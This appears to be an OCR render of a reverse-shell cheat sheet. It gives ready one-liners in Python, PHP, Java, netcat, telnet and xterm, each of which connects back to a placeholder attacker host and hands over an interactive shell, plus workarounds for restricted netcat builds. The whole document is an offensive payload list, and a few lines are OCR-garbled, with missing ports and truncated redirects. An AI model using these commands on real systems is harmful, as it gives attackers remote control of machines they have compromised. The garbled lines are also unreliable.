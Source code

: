 	PYTHON Reverse Shell
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attackerip",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


	PHP Reverse Shell
	php -r '$sock=fsockopen("attackerip",443);exec("/bin/sh -i <&3 >&3 2>&3");'


	JAVA Reverse Shell
	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/attackerip/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()


	NETCAT Reverse Shell
	nc -e /bin/sh attackerip 4444
	nc -e /bin/sh 192.168.37.10 443

	# If the -e option is disabled, try this
	# mknod backpipe p && nc attackerip 443 0<backpipe | /bin/bash 1>backpipe
	/bin/sh | nc attackerip 443
	rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4443 0/tmp/

	# If you have the wrong version of netcat installed, try
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attackerip >/tmp/f


	TELNET Reverse Shell
	# If netcat is not available or /dev/tcp
	mknod backpipe p && telnet attackerip 443 0<backpipe | /bin/bash 1>backpipe


	XTERM Reverse Shell
	# Start an open X Server on your system (:1 – which listens on TCP port 6001)
	apt-get install xnest
	Xnest :1
	# Then remember to authorise on your system the target IP to connect to you
	xterm -display 127.0.0.1:1
	# Run this INSIDE the spawned xterm on the open X Server
	xhost +targetip
	# Then on the target connect back to the your X Server
	xterm -display attackerip:1
	/usr/openwin/bin/xterm -display attackerip:1
	or
	$ DISPLAY=attackerip:0 xterm
